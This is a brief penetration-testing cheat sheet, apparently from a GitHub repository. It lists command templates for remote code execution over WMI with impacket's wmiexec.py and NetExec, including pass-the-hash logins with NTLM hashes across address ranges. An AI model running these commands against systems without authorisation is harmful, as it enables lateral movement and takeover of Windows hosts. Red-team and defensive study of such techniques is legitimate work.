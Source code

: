 # Unix Shell

## 01 - Impacket

- Authenticate via impacket script with WMIExec

`$ wmiexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ wmiexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes :<nt_hash> [-codecs <codec>]
```

## 02 - NetExec

`$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -p "<password>" [-d <domain_name> | --local-auth]`

- Pass the Hash

`$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth]`

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)